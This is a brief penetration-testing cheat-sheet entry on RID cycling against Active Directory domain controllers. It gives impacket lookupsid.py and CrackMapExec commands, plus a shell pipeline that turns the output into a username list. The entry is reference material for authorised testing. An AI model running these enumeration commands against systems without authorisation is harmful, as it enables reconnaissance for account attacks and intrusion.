 ```yaml
---
description: Relative Identifier
---
```


# RID Cycling

* [https://www.trustedsec.com/blog/new-tool-release-rpc_enum-rid-cycling-attack/](https://www.trustedsec.com/blog/new-tool-release-rpc_enum-rid-cycling-attack/)

Perform RID cycling attack against a DC with SMB null sessions allowed with [lookupsid.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/lookupsid.py):

```
$ lookupsid.py MEGACORP/snovvcrash:'Passw0rd!'@127.0.0.1 20000 | tee ~/ws/log/lookupsid.out
$ cat ~/ws/log/lookupsid.out | grep SidTypeUser | grep -v -e '\$' -e '{' -e '}' -e HealthMailbox | awk -F'\' '{print $2}' | awk '{print $1}' | perl -nle 'print if m{^[[:ascii:]]+$}' > ~/ws/enum/all-users.txt
```

With CrackMapExec:

```
$ cme smb 192.168.1.11 -u '' -p '' --users
```
